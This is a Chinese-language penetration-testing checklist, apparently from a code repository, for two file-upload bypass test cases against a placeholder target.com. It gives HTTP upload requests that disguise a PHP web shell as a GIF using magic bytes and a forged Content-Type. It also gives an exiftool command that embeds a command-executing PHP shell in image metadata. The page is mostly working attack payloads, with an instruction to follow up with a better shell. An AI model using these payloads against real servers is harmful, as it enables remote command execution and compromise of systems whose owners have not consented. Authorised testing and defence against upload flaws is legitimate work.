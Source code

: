 

## 测试案例5:Content 绕过/使用 魔术字节

```
1. 找到上传请求并将其发送到repeater
2. 首先尝试以上四种绕过方法，如果不奏效，则查看文件内容是否已检查。结合尝试以上五种方法，以提高成功率。

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

3. 将 Content-Type: application/x-php 更改为 Content-Type: image/gif，并在执行 Shellcode 之前添加文本“GIF89a;”。

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system($_GET['cmd']); ?>

4. 尝试更多链接 https://en.wikipedia.org/wiki/List_of_file_signatures 并相应地更改
Content-Type:
5. 如果成功，上传更好的 Shell 和 POC，看看如何提高关键性能。
```



## 测试案例6: 魔术字节和源数据shell

```
1. 找到上传请求并将其发送到repeater
2. 首先尝试以上所有绕过方法，如果无效，则检查文件内容是否经过检查。结合尝试以上六种方法，以提高成功率。

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

4. 首先通过将 Content-Type 标头的值设置为 image/png、text/plain、application/octet-stream 来绕过 Content-Type 检查。
5. 使用 exiftool 工具将 shell 引入元数据中。

exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

6. 现在尝试上传这张修改后的 img.jpg
7. 进一步利用漏洞，提升临界值。
```
